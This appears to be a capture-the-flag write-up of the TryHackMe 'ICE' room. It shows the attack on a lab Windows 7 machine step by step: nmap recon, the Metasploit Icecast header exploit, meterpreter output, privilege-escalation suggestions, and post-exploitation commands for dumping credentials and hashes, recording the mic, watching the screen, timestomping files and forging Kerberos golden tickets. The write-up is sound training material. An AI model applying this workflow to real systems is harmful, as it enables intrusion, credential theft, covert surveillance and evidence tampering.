 ```yaml
---
title: Try Hack Me - ccpentesting
layout: post
category: writeup
---
```


# Try Hack Me: ICE
```
export IP=10.10.201.119
```

## Task 2 [recon]

```
nmap -oN nmap.init.out -sC -sV -A -T4 -p- $IP
```

```
Nmap scan report for 10.10.201.119
Host is up (0.11s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-21T04:28:37+00:00; 0s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 2 hops
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 1h15m00s, deviation: 2h30m00s, median: 0s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:59:6e:ff:11:54 (unknown)
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-20T23:28:28-05:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-21T04:28:28
|_  start_date: 2020-05-21T03:26:10

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   114.00 ms 10.11.0.1
2   114.08 ms 10.10.201.119

```


1. What port is MSRDP?
```
3389
```

2. What service is running on port 8000?
```
Icecast
```

3. What is the hostname of the machine?
```
DARK-PC
```

## Task 3 [gain access]

```
searchsploit icecast
```

```
-------------------------------------------------------------------------- -----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/opt/exploit-database/)
-------------------------------------------------------------------------- -----------------------------------------
Icecast 1.1.x/1.3.x - Directory Traversal                                 | exploits/multiple/remote/20972.txt
Icecast 1.1.x/1.3.x - Slash File Name Denial of Service                   | exploits/multiple/dos/20973.txt
Icecast 1.3.7/1.3.8 - 'print_client()' Format String                      | exploits/windows/remote/20582.c
Icecast 1.x - AVLLib Buffer Overflow                                      | exploits/unix/remote/21363.c
Icecast 2.0.1 (Win32) - Remote Code Execution (1)                         | exploits/windows/remote/568.c
Icecast 2.0.1 (Win32) - Remote Code Execution (2)                         | exploits/windows/remote/573.c
Icecast 2.0.1 (Windows x86) - Header Overwrite (Metasploit)               | exploits/windows_x86/remote/16763.rb
Icecast 2.x - XSL Parser Multiple Vulnerabilities                         | exploits/multiple/remote/25238.txt
icecast server 1.3.12 - Directory Traversal Information Disclosure        | exploits/linux/remote/21602.txt
-------------------------------------------------------------------------- -----------------------------------------
Shellcodes: No Results
```

1. What type of vulnerability is present in the running version of Icecast?
```
execute code overflow
```

2. What is the CVE number of this vuln?
```
CVE-2004-1561
```

4. What is the full path for the exploit module in metasploit?
```
exploits/windows/http/icecast_header
```

6. What is the required exploit module setting?
```
rhosts
```

## Task 4 [escalate]

```
meterpreter > getuid
Server username: Dark-PC\Dark
```

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.201.119 - Collecting local exploits for x86/windows...
[*] 10.10.201.119 - 31 exploit checks are being tried...
[+] 10.10.201.119 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

1. Whats the name of the resulting shell?
```
meterpreter
```

2. What user is running the Icecast process?
```
Dark
```

3. What build of Windows is the system?
```
7601
```

4. What is the architecture of the process we are running?
```
x64
```


6. What is the full path for the first returned exploit suggsted by the local_exploit_suggester?
```
exploit/windows/local/bypassuac_eventvwr
```

10. What is the name of the one option that needs to be changed?
```
LHOST
```

14. What permission did we gain that allows us to take ownership of files?
```
SeTakeOwnershipPrivilege
```

## Task 5 [looting]

2. What is the name of the printer service?
```
spoolsv.exe
```

4. What user are we now?
```
NT AUTHORITY\SYSTEM
```

7. Which command allows us to retrieve all credentials (kiwi)?
```
creds_all
```

8. What is Dark's password?
```
Password01!
```

## Task 6 [post-exploitation]

2. What is the command to dump all password hashes on the system?
```
hashdump
```

3. What command allows us to watch the remote users desktop in realtime?
```
screenshare
```

4. Record from a microphone from the system?
```
record_mic
```

5. What command allows us to modify timestamps of files on the system?
```
timestomp
```

6. What mimikatz command creates a "golden ticket" for authentication to kerberos?
```
golden_ticket_create
```

## Task 7 [extra credit]

ouch, my brain